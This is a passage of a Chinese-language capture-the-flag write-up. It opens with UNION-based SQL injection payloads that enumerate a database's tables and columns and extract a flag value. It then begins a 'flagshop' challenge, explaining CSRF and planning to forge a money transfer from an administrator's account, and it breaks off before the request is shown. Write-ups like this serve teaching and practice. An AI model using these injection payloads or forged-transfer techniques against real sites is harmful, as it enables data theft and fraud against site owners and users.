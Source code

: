 ```
?id=0' union select 1,2,3,database() %23
```

获取表

```
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema="geek_sql" %23
```

获取字段

```
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="fllllag"%23
id,fllllllag
```

获取值

```
?id=0' union select 1,2,3,group_concat(id,':',fllllllag) from fllllag %23
```



### flagshop

#### 考点：CSRF攻击

这道题提示我们需要在页面里搞到钱，买到flag，关键点就是**钱从哪来**？

让我们现再仔细观察一下页面，我们每一个账号都有一个身份id，注册用户的身份是一个普通的用户

在主页里我们可以看到一个财务管理员的id：==Longlong==（待会我们会用到这个ID），如果搞到他的账户登录，或者让他打钱给我们我们不就有钱了，因为我们可以看到一个**转账的页面**

题目的提示也验证了我们的猜想，而且但也堵上了第一条路

> 1.No sessionid!Don't Try to be admin(robot?) 2.Do you know csrf?
>
> 1.没有sessionid！不要尝试成为管理员（机器人？）2.您知道csrf吗？



**我们先了解一下CSRF**

> 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，**XSS** 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任
>
> 跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：**简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的**。

总结一下我们的攻击手段，我们需要挟制一个有钱的用户，让他打钱到我们的账户中，这样我们就有钱买flag了



**现在就是实现的步骤了：**

1. 我们需要写一个跨站脚本，来伪造一份转账记录
2. 我们需要选择一个受害账户，让他来运行我们的脚本

我们先来看一看一个**正常的转账数据包**长什么样子
